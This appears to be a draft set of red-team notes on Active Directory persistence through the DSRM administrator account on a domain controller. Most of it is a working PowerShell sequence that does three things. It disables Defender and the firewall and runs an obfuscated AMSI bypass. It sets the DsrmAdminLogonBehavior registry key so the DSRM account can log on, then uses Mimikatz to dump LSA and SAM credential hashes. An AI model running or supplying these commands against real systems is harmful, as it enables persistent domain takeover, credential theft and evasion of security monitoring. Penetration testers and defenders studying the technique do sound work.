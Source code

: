 ```yaml
---
title: Windows Domain Persistence and Dominance
published: 2025-02-08
description: "Commands for enumerating windows"
image: "./img/img.jpg"
tags: [Notes ,AD, windows]
category: 'Notes'
draft: true
---
```


# DSRM

- DSRM is Directory Services Restore Mode. 
- There is a local administrator on every DC called "Administrator" whose password is the DSRM password. 
- DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed. 
- After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

```powershell
# From the Domain Admin Powershell Permission
# Create Session
$sess = New-PSSession -ComputerName dc

# Disable Firewall and AV
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
Invoke-Command -Session $sess -FilePath c:\AD\Tools\Invoke-mimikatz.ps1

# Enter Session
Enter-PSSession $sess

# ByPass AMSI
powershell -ep bypass
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Enter New KeyReg
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# If KeyReg Exist:
# Get-ItemProperty to see if DsrmAdminLogonBehavior is set to 2
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
# If DsrmAdminLogonBehavior is not set to 2
Set-ItemProperty -Name "DsrmAdminLogonBehavior" -Value 2
# Get-ItemProperty to see if DsrmAdminLogonBehavior is set to 2
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"


# Compare the Administrator hash with the Administrator hash of below command
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dc


# Dump DSRM password (needs DA privs) to be used for the command below
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dc
```